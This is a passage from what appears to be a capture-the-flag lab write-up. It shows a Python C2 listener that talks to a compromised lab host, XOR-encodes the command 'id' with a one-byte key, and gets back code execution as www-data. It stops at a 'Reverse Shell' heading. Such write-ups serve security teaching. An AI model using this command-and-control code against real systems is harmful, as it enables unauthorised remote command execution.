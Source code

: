 

#### One Byte XOR

Given that I am given an XOR key and it applies to the messages coming
back, I'll try XOR my command with that.



    import socket
    from binascii import unhexlify
    from itertools import cycle


    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    s.bind(('0.0.0.0',20053))

    s.listen(1)
    while True:
        c, address = s.accept()
        print(f'[+] Connection from {address[0]}')
        data = c.recv(1024)
        guid, hex_msg = data.split(b'|')
        print(f'[*] Session ID: {guid}')
        msg = unhexlify(hex_msg.strip())
        xor_msg = unhexlify(msg.split(b':')[-1])
        xor_chr = xor_msg.split(b'_')[2]
        assert(len(xor_chr) == 1)

        print(f'[*] XOR key: {xor_chr.decode()}')

        xor = ord(xor_chr)
        cmd = b"id"
        encoded_cmd = bytes([x^xor for x in cmd])
        c.send(encoded_cmd)
        resp = c.recv(1024).strip()
        new_guid, msg = resp.split(b'|')
        assert(new_guid == guid)
        pt_msg = bytes([x^xor for x in unhexlify(msg)]).decode()
        print(f'{pt_msg}')
        c.close()

    s.close() 



It works!



    oxdf@hacky$ python3 c2.py 
    [+] Connection from 10.10.10.140
    [*] Session ID: b'56520806-f755-4571-93f1-7e070b81e374'
    [*] XOR key: J
    cmd:uid=33(www-data) gid=33(www-data) groups=33(www-data)



### Reverse Shell
